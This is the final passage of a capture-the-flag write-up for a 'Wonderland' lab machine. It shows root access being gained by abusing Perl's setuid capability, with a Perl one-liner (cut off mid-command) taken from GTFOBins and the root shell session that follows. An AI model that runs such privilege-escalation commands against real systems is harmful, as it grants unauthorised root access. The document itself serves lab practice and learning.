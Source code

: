 after i know perl then next i go to [gtfobins](https://gtfobins.github.io/gtfobins/perl/#capabilities) to execute perl. Congrats we are at the root, thanks to my friends, thanks also to those of you who read it. Hack again.

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/
# whoami
root
# cd /home
# cd alice
# ls
random.py  root.txt  walrus_and_the_carpenter.py
# cd /
# cd /root 
# ls 
user.txt 
# 
```

Now we get root and can continue another machine.
